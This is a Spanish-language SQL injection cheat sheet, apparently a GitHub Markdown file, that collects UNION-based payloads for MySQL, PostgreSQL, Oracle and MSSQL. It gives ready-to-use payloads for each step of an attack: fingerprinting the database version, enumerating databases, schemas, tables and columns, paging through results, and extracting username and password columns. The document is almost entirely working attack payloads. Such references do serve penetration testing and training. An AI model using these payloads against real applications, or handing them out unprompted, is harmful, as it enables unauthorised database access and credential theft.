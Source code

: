 
---
# Cheatsheet de SQLi en Bases de Datos Comunes

En este documento recogemos las principales consultas de enumeración y extracción de información mediante **inyecciones SQL (SQLi)** en las bases de datos más habituales: [MySQL](MySQL.md), [PostgreSQL](.md), [Oracle](Oracle.md) y [MSSQL](MSSQL.md) (Microsoft SQL Server ).  

---

# MySQL

## Obtener versión
```sql
' UNION SELECT NULL, @@version-- -
```

## Listar bases de datos
```sql
' UNION SELECT NULL, schema_name FROM information_schema.schemata-- - 
```

## Listar tablas
```sql
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = 'nombre_base_datos'-- - 
```

## Listar columnas
```sql
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 'nombre_tabla' AND table_schema = 'nombre_base_datos'-- -
```

## Extraer datos
```sql
' UNION SELECT username, password FROM users-- -
```

## Paginación
```sql
' UNION SELECT NULL, col FROM tabla LIMIT 10 OFFSET 0-- -
```

## Concatenar valores

MySQL → `CONCAT(username, '->', password)`

PostgreSQL / Oracle → `username || '->' || password`

MSSQL → `username + '->' + password`

---

# PostgreSQL

## Obtener versión
```sql
' UNION SELECT NULL, version()-- 
```

## Listar bases de datos
```sql
' UNION SELECT datname, NULL FROM pg_database -- 
```

## Listar schemas en la base de datos actual
```sql
' UNION SELECT NULL, schema_name FROM information_schema.schemata -- 
```

## Listar tablas de un esquema
```sql
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = 'public' -- 
```

## Listar columnas
```sql
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 'nombre_tabla' -- 
```

## Extraer datos
```sql
' UNION SELECT username, password FROM users -- 
```

## Paginación
```sql
' UNION SELECT NULL, col FROM tabla LIMIT 10 OFFSET 0 -- 
```

---

# Oracle

## Obtener versión
```sql
' UNION SELECT NULL, banner FROM v$version WHERE ROWNUM = 1 -- 
```

## Listar schemas (usuarios)
```sql
' UNION SELECT NULL, username FROM all_users -- 
```

## Listar tablas
```sql
' UNION SELECT NULL, table_name FROM all_tables WHERE owner = 'ESQUEMA' -- 
```

## Listar columnas
```sql
' UNION SELECT NULL, column_name FROM all_tab_columns WHERE table_name = 'NOMBRE_TABLA_EN_MAYUSC' -- 
```

## Extraer datos
```sql
' UNION SELECT NULL, USER FROM DUAL -- 
```

## Paginación (con ROWNUM)
```sql
' UNION SELECT NULL, col FROM (SELECT col, ROWNUM rn FROM tabla WHERE ROWNUM <= 20) WHERE rn > 10 -- 
```

---

# Microsoft SQL Server (MSSQL)

## Obtener versión
```sql
' UNION SELECT NULL, @@version -- 
```

## Listar bases de datos
```sql
' UNION SELECT name, NULL FROM sys.databases -- 
```

## Listar tablas
```sql
' UNION SELECT NULL, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'dbo' -- 
```

## Listar columnas
```sql
' UNION SELECT NULL, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'PRODUCT' AND TABLE_SCHEMA = 'dbo' -- 
```

## Extraer datos
```sql
' UNION SELECT username, password FROM nombre_tabla -- 
```

## Paginación
```sql
' UNION SELECT TOP 10 NULL, col FROM tabla -- 
' UNION SELECT NULL, col FROM tabla ORDER BY id OFFSET 10 ROWS FETCH NEXT 10 ROWS ONLY -- 
```

---

## Versiones

- **MySQL** → usa `LIMIT` para paginación.  
- **PostgreSQL** → muy similar a MySQL (`LIMIT ... OFFSET`).  
- **Oracle** → usa `ROWNUM` o subconsultas para limitar resultados.  
- **MSSQL** → versiones antiguas usan `TOP`; versiones modernas permiten `OFFSET ... FETCH`.  

---

